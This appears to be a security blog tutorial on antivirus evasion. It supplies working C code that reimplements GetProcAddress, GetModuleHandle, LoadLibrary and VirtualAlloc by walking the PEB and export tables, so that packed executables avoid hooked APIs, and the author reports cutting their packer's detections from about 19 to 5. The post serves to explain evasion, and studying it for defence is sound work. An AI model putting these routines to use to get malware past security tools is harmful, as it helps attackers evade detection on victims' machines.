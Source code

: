 ```yaml
---
title: "AV Evasion: The most common techniques (with code examples)"
classes: wide
header:
  teaser: /assets/images/unpacking/evadingavs/videos.png
ribbon: DodgerBlue
description: "Learn how malware bypassses AV evasion (includes code examples)"
categories:
  - AV-evasion
toc: true
---
```


# Reducing AV detections

Malware authors work 24/7 to find breakthroughs that will allow them to create **FUD** (**Fully Undetected**) malware.

There's even a dedicated marketplace on YouTube and Telegram for people selling their so-called "`FUD crypters`"  that will claim to make *any* exe payload (including actual rat builds) *"have almost 0 detections on virustotal:"*

![Video results for searching "FUD Crypter" on Youtube](/assets/images/evadingavs/videos.png)

![FUD crypter marketplace on Telegram](/assets/images/evadingavs/marketplace.png)

And here's an example of how one of these FUD crypters look like:

![Video results for searching "FUD Crypter" on Youtube](/assets/images/evadingavs/crypter.png)

# How do they do this?

It's a combination of many different techniques. In this post, we'll cover the most basic ones:

- Custom WinAPI function implementations

- String Encryption

- Packing

Let's start with custom WinAPI function implementations:

As you may know, AVs look for programs that use "suspicious" WinAPI functions. We're talking `GetModuleHandle`, `GetProcAddress`, `VirtualAlloc`, etc.

Of course, these functions have legitimate uses, **but they're frequently used by malware authors**.

# The solution

Instead of directly calling a CRT function like `VirtualAlloc`, malware authors will create their own "custom implementations" of these functions.

For example, instead of calling `GetModuleHandleW` directly from the CRT (which is *hooked to death* by AV solutions):

![Direct WinAPI function usage](/assets/images/evadingavs/crtfunction.png)

They will create a custom function (`myGetModuleHandle`) that is meant to **functionally replicate** the original `GetModuleHandleW`, so that, instead of calling `GetModuleHandleW`, we will call `myGetModuleHandle` which looks a lot less suspicious, since it looks like a normal function in our code.

Here's an example of a custom `myGetModuleHandle` implementation that I used in my custom .exe packer:

![Custom WinAPI function implementation](/assets/images/evadingavs/customfunction.png)

As you can see, it manually walks over the linked list of modules (inside the PEB), copies the target module name (`ModuleName`) and the current module's full path (`FullDllName`) into buffers, and checks if the current module name contains (or matches) the target name (case-insensitive partial match).

If it matches, we return the base address (DllBase) of the loaded module:
```c
return (HMODULE)pEntry->DllBase;
```
If it walks through all modules without a match:
```
return NULL;
```

We can then call this custom function in our code. So, instead of doing:
```c
GetModuleHandleW(L"ntdll.dll") // ❌ <-- Hooked!
```
We will call our custom function:
```c
myGetModuleHandleW(L"ntdll.dll") // ✅ <-- Looks like a normal function!
```
For my custom packer, I implemented these custom functions: `myVirtualAlloc`, `MyLoadLibrary`, `myGetModuleHandle`, `myGetProcAddress`.

Below is the code for them:

Custom `GetProcAddress`:
```c
FARPROC myGetProcAddress(HMODULE hModule, LPCSTR lpProcName) {
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)hModule;
	PIMAGE_NT_HEADERS64 ntHeaders = (PIMAGE_NT_HEADERS64)((BYTE*)hModule + dosHeader->e_lfanew);
	PIMAGE_EXPORT_DIRECTORY exportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule + ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

	DWORD* addressOfFunctions = (DWORD*)((BYTE*)hModule + exportDirectory->AddressOfFunctions);
	WORD* addressOfNameOrdinals = (WORD*)((BYTE*)hModule + exportDirectory->AddressOfNameOrdinals);
	DWORD* addressOfNames = (DWORD*)((BYTE*)hModule + exportDirectory->AddressOfNames);
	for (DWORD i = 0; i < exportDirectory->NumberOfNames; i++) {
		if (strcmp(lpProcName, (const char*)hModule + addressOfNames[i]) == 0) {
			return (FARPROC)((BYTE*)hModule + addressOfFunctions[addressOfNameOrdinals[i]]);
		}
	}
	return NULL;

}
```

Custom `GetModuleHandle`:

```c
HMODULE myGetModuleHandle(LPCWSTR ModuleName) {
	PEB* pPeb = (PEB*)__readgsqword(0x60);
	PEB_LDR_DATA* Ldr = pPeb->Ldr;
	LIST_ENTRY* ModuleList = &Ldr->InMemoryOrderModuleList;
	LIST_ENTRY* pStartListEntry = ModuleList->Flink;
	WCHAR inputModule[MAX_PATH] = { 0 };
	WCHAR targetModule[MAX_PATH] = { 0 };
	for (LIST_ENTRY* pListEntry = pStartListEntry; pListEntry != ModuleList; pListEntry = pListEntry->Flink) {
		
		LDR_DATA_TABLE_ENTRY* pEntry = (LDR_DATA_TABLE_ENTRY*)((BYTE*)pListEntry - sizeof(LIST_ENTRY));
		wcscpy_s(targetModule, MAX_PATH, ModuleName);
		wcscpy_s(inputModule, MAX_PATH, pEntry->FullDllName.Buffer);

		if (StrStrW(inputModule, targetModule) != NULL) {
			return (HMODULE)pEntry->DllBase;
		}
	}
	return NULL;
}
```

Custom `LoadLibrary`:
```c
typedef NTSTATUS(NTAPI* pLdrLoadDll) (
	PWCHAR PathToFile,
	ULONG Flags,
	PUNICODE_STRING ModuleFileName,
	PHANDLE ModuleHandle
	);
HMODULE MyLoadLibrary(LPCWSTR lpFileName) {
	UNICODE_STRING ustrModule;
	HANDLE hModule = NULL;

	HMODULE hNtdll = myGetModuleHandle((LPCWSTR)L"ntdll.dll");
	pRtlInitUnicodeString RtlInitUnicodeString = (pRtlInitUnicodeString)myGetProcAddress(hNtdll, "RtlInitUnicodeString");

	RtlInitUnicodeString(&ustrModule, lpFileName);

	pLdrLoadDll myLdrLoadDll = (pLdrLoadDll)myGetProcAddress(myGetModuleHandle(L"ntdll.dll"), "LdrLoadDll");
	if (!myLdrLoadDll) {
		return NULL;
	}

	NTSTATUS status = myLdrLoadDll(NULL, 0, &ustrModule, &hModule);
	return (HMODULE)hModule;
}
```

Custom `VirtualAlloc`:

```c
typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
	HANDLE ProcessHandle,
	PVOID* BaseAddress,
	ULONG_PTR ZeroBits,
	PSIZE_T RegionSize,
	ULONG AllocationType,
	ULONG Protect
	);

LPVOID myVirtualAlloc(SIZE_T size, DWORD allocationType, DWORD protect) {
	HMODULE ntdll = myGetModuleHandle((LPCWSTR)L"ntdll.dll");
	if (ntdll == NULL) {
		printf("Failed to get address of NtAllocateVirtualMemory\n");
		return NULL;
	}
	pNtAllocateVirtualMemory myAllocateVirtualMemory = (pNtAllocateVirtualMemory)myGetProcAddress(ntdll, "NtAllocateVirtualMemory");
	if (!myAllocateVirtualMemory) {
		printf("Failed to get address of NtAllocateVirtualMemory\n");
		return NULL;
	}
	PVOID baseAddress = NULL;
	SIZE_T regionSize = size;

	NTSTATUS status = myAllocateVirtualMemory(
		GetCurrentProcess(),
		&baseAddress,
		0,
		&regionSize,
		allocationType,
		protect
	);
	return baseAddress;

}
```

Combined with some other tricks, these custom functions reduced the detections of my packer to around **5 detections** on VirusTotal:

![Direct WinAPI function usage](/assets/images/evadingavs/detections.png)

Before the custom functions, my packer was at around **19 detections**.









